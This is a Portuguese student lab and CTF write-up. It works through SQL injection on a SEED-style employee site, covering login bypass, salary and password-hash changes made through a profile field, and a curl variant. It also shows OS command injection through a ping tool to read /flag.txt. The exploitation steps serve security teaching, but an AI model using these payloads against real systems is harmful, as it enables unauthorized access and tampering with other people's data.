 # Task 1
Nesta task somos apresentados com uma base de dados constituída por uma só tabela credentials. Esta tabela é constituída por 11 campos, sendo entre eles, um usado como Identificador Único, um como Nome de Utilizador e um para a Palavra-passe que é guardada em hash.
![task1](Images/LB8-1.png) 

![task1](Images/LB8-2.png) 

# Task 2
## Task 2.1
Para esta task temos que injetar sql na webpage para dar login como administrador. Analisando o código fonte descobrimos que os pedidos sql não são corretamente sanitizados e é possível fazer que o servidor ignore a verificação da palavra-passe.
```
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
    FROM credential
    WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

Para injetar sql basta no nome de utilizador introduzir a string `Admin' #` que vai comentar o resto da linha que corresponde à verificação da palavra-passe.

![task2.1](Images/LB8-T2_1.png)

![task2.1_2](Images/LB8-T2_1_1.png)

## Task 2.2
Para esta task repetimos o que fizemos na task anterior, mas desta vez usamos o comando `curl` no terminal. Para mandar os caracteres especiais `'`, ` ` e `#` estes têm de ser codificados para suportar o formato url.

`curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23&Password=' > a.html`

a.html:

![task2.2](Images/LB8-T2_2.png)

## Task 2.3
Para esta task temos de tentar correr múltiplos comandos de sql de uma vez. Para este teste preencheu-se o nome de utilizador com `Admin'; UPDATE credential SET PhoneNumber=111111111 WHERE ID=6;` que resultou numa pagina de erro.


![task2.3](Images/LB8-T2_3.png)

Foi verificado no terminal que de facto o comando não teve qualquer efeito sobre a base de dados.

```
mysql> SELECT * FROM credential WHERE ID=6;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

A razão de este exploit não ter funcionado está relacionado com a função query() do php que não permite a execução de mais de 1 comando sql por query.

# Task 3
## Task 3.1
Para esta task era necessário tar logado com a utilizadora Alice e alterar o próprio salário. Para alterar o próprio salário bastou na pagina de editar perfil preencher o nickname com a string `Alice', Salary=999999, email='`.

![task3.1_1](Images/LB8-T3.png)

![task3.1](Images/LB8-3_1.png)

Como podemos ver com a imagem acima conseguimos alterar o salário com sucesso.

## Task 3.2
Esta task envolve mudar o salário do utilizador 'Boby'. Para alterar o salário do 'Boby' basta entrar na secção de editar o perfil da 'Alice' adicionar a seguinte string ao nickname `', Salary=1 WHERE name='Boby' #` e guardar as alterações.

Para verificar se as alterações foram guardadas precisamos de verificar no container de mysql.
 
 ```
mysql> SELECT * FROM credential WHERE name='Boby';
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  2 | Boby | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | b78ed97677c161c1c82c142906674ad15242b2d4 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
 ```

Como podemos verificar alteramos com sucesso o salário do utilizador 'Boby'.

## Task 3.3
Esta task envolve alterar a palavra pass do utilizador 'Boby' e entrar na conta do mesmo. Como este servidor sql usa uma hash sha1 foi submetida a mesma hash a string `hacked` que resultou na hash `e812ba8d00b270ef3502bb53ceb31e8c5188f14e`, de seguida foi executado no campo de nickname da pagina de editar o perfil da Alice a seguinte string `', Password='e812ba8d00b270ef3502bb53ceb31e8c5188f14e' WHERE name='Boby' #`, por ultimo deu-se log-out e de seguida log-in na conta do 'Boby' com a password `hacked`.

```
mysql> SELECT * FROM credential WHERE name='Boby';
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  2 | Boby | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | e812ba8d00b270ef3502bb53ceb31e8c5188f14e |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

Como podemos confirmar com o container mysql, a palavra-passe do bobby foi alterada para a hash correspondente à string `hacked`.

# CTF 8
## Desafio 1
No desafio 1 é nos dado um site e o seu o código fonte php correspondente ao site, ao analisar o código fonte descobrimos que as queries de sql não estão corretamente sanitizadas, sabemos também que o utilizador com mais privilégios é o admin. Para entrar na conta admin basta usar um OR que invalide a verificação da palavra-passe, no nosso caso foi usado a string `admin' OR '1'='1`.

![ctf8D1](Images/CTF8_D1.png)

## Desafio 2
Para o desafio 2 é nos dado um site com uma home page para dar log-in e outra pagina no diretório `tools/index.php`, no enunciado é também referido que o ficheiro flag.txt se encontra no diretório `/`.

![ping](Images/CTF8-D2.png)

Clicar no botão `Ping It` resulta no redirecionamento para o link `http://ctf-fsi.fe.up.pt:5000/tools/ping.php?target=google.com` que indica que somos redirecionados para o diretório `/tools/ping.php` e que a variável target é preenchida o com texto dado como input na pagina anterior.

![output](Images/CTF8-D2_2.png)

Ao analisar o output obtido de dar ping ao servidor da Google, conseguimos observar semelhanças ao comando ping do Linux. Assumimos então que o servidor está a utilizar uma chamada do tipo `system("ping" + input)` onde o input equivale ao conteúdo introduzido na pagina anterior. Para comprovar a nossa teoria foi testado escapar o comando ping e correr um comando ls, para tal inseriu-se a string `; ls` no input da pagina anterior.

![teste_p1](Images/CTF8-D2_3.png)

![teste_p2](Images/CTF8-D2_4.png)

Concluímos então que a pagina ping.php corre um comando `system(ping + input)` e que esta chamada system não contem o input devidamente sanitizado. Como sabemos que o ficheiro flag.txt se encontra no diretório `\` regressamos à pagina anterior e demos como input a string `; cat /flag.txt`.

![solução_p1](Images/CTF8-D2_5.png)

![solução_p2](Images/CTF8-D2_6.png)

Chegamos assim à flag pretendida.
